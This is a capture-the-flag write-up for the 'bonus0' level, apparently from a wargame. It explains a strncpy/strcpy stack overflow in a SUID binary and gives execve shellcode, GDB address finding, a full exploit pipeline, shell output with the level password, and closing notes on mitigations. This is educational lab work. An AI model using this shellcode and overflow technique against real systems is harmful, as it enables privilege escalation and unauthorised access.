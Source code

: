 # Bonus0 Analysis - Double Buffer Overflow via strcpy/strcat

## Overview
Bonus0 demonstrates a sophisticated **double buffer overflow** attack exploiting the dangerous combination of `strncpy()` and `strcpy()`. The vulnerability occurs when `strncpy()` fails to null-terminate strings, causing subsequent `strcpy()` operations to read beyond intended boundaries.

## Binary Information
- **File**: ELF 32-bit LSB executable, Intel 80386, dynamically linked
- **Permissions**: -rwsr-s---+ 1 bonus1 users (SUID bit set for bonus1)  
- **Size**: 5566 bytes
- **Functions**: main(), pp(), p(), strcpy(), strncpy(), strcat(), puts(), read(), strchr()
- **Protection**: No stack canaries, NX disabled (executable stack)

## Source Code Analysis

### Program Structure
```c
char *p(char *s, char *str) {
    char buffer[4096];
    puts(str);                          // Print " - "
    read(0, buffer, 4096);              // Read user input
    *strchr(buffer, '\n') = 0;          // Remove newline
    return (strncpy(s, buffer, 20));    // Copy first 20 chars (NO NULL TERMINATION!)
}

char *pp(char *buffer) {
    char b[20], a[20];
    unsigned int len;
    
    p(a, " - ");          // Get first input → a[20]
    p(b, " - ");          // Get second input → b[20]
    strcpy(buffer, a);    // VULNERABLE: a may not be null-terminated!
    len = strlen(buffer); 
    buffer[len] = ' ';
    buffer[len + 1] = 0;
    return (strcat(buffer, b)); // Concatenate b to buffer
}

int main(void) {
    char buffer[42];      // Main buffer (42 bytes)
    pp(buffer);
    puts(buffer);
    return (0);
}
```

## Vulnerability Analysis

### Critical Flaw: strncpy() Null-Termination Issue
**The Problem:**
- `strncpy(s, buffer, 20)` copies exactly 20 bytes from buffer to s
- **If source length ≥ 20**: No null terminator is added to destination
- **Result**: String `a` becomes non-null-terminated

### Attack Chain
1. **First Input (> 20 chars)**: `strncpy()` copies 20 chars without null terminator
2. **String `a` State**: Contains 20 chars + whatever follows in memory (string `b`)
3. **strcpy() Exploitation**: Reads past `a[20]` into `b[20]`, then into stack memory
4. **Buffer Overflow**: Overflows main buffer[42], overwrites return address

## Memory Layout Analysis

### Stack Layout in pp() function
```
Higher Memory Addresses
┌─────────────────────────────────────┐
│ Saved EBP                          │ ← EBP
├─────────────────────────────────────┤
│ Return Address                     │ ← EBP + 4 (TARGET)
├─────────────────────────────────────┤
│ buffer parameter (from main)       │ ← EBP + 8
├─────────────────────────────────────┤
│ len variable                       │ ← EBP - 4
├─────────────────────────────────────┤
│ b[20] array                        │ ← EBP - 0x1C
├─────────────────────────────────────┤
│ a[20] array                        │ ← EBP - 0x30
└─────────────────────────────────────┘
Lower Memory Addresses
```

### Buffer Overflow Mechanics
- `a[20]` (not null-terminated) + `b[20]` = 40+ bytes copied to main buffer[42]
- Overflow occurs when total length > 42 bytes
- Return address overwrite at offset 14 from buffer start

## Exploitation Strategy

### 1. Shellcode Placement
**Input 1 (First " - " prompt):**
```python
'\x90' * 3000 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'
```
- **NOP Slide**: 3000 bytes of `\x90` (no-operation instructions)  
- **Shellcode**: 23 bytes - execve("/bin//sh") system call

### Optional: Place shellcode in environment (EGG)
You can store a small NOP slide + shellcode in an environment variable and use it as an alternate storage location. Example (Python 2 syntax):

```bash
export EGG=$(python -c "print '\x90' * 100 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'")
```

This places a 100-byte NOP slide followed by the 23-byte execve shellcode into the `EGG` environment variable. Using environment storage is optional and sometimes useful when limiting input size or exploiting different memory layouts.

### 2. Return Address Overwrite
**Input 2 (Second " - " prompt):**
```python
'B' * 14 + '\xa4\xe6\xff\xbf' + 'B'
```
- **Padding**: 14 bytes to reach return address
- **Target Address**: `0xbfffe6a4` (points into NOP slide)
- **Extra Byte**: Ensures proper alignment

### 3. Address Calculation
**Buffer Address Discovery (via GDB):**
```gdb
(gdb) disas p
   0x080484d0 <+28>: lea -0x1008(%ebp),%eax  ; buffer address
(gdb) break *p+28
(gdb) run
(gdb) x $ebp-0x1008
0xbfffe640: 0x00000000
```
- **Buffer Start**: `0xbfffe640`
- **Target Address**: `0xbfffe640 + 100 = 0xbfffe6a4` (middle of NOP slide)

## Shellcode Analysis
```assembly
\x31\xc0        ; xor eax, eax          - Clear EAX
\x50           ; push eax              - Push NULL terminator  
\x68\x2f\x2f\x73\x68 ; push "//sh"      - Push "//sh"
\x68\x2f\x62\x69\x6e ; push "/bin"      - Push "/bin"  
\x89\xe3       ; mov ebx, esp          - EBX = "/bin//sh"
\x50           ; push eax              - Push NULL (argv[1])
\x53           ; push ebx              - Push "/bin//sh" (argv[0])
\x89\xe1       ; mov ecx, esp          - ECX = argv array
\xb0\x0b       ; mov al, 11            - EAX = 11 (execve syscall)
\xcd\x80       ; int 0x80              - Execute system call
```

## Complete Exploit Execution

### Final Payload (use Python 2 for exact semantics)

```bash
(python2 -c "print '\x90'*3000 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'"; python2 -c "print 'B'*14 + '\xa4\xe6\xff\xbf' + 'B'"; cat) | ./bonus0
```

This pipeline was tested with Python 2 to generate exact byte sequences and successfully triggers the NOP slide → shellcode execution path.

### Execution Result
```
 -
 -  
��������������������BBBBBBBBBBBBBB����B BBBBBBBBBBBBBB����B
whoami
bonus1
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```

## Security Implications

### Vulnerability Root Cause
1. **Dangerous Function Usage**: `strncpy()` without explicit null termination
2. **Unsafe String Operations**: `strcpy()` on potentially non-terminated strings
3. **No Bounds Checking**: Buffer operations without length validation
4. **Stack Execution**: Executable stack allows shellcode execution

### Modern Mitigations
- **ASLR**: Address Space Layout Randomization would randomize buffer addresses
- **Stack Canaries**: Would detect buffer overflow before return
- **NX Bit**: Non-executable stack would prevent shellcode execution  
- **FORTIFY_SOURCE**: Would replace unsafe functions with safer variants

### Lessons Learned
- Always explicitly null-terminate strings after `strncpy()`
- Use safer alternatives: `strlcpy()`, `snprintf()`
- Implement proper input validation and bounds checking
- Enable modern compiler protections and system-level mitigations

## Flag Retrieved
```
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```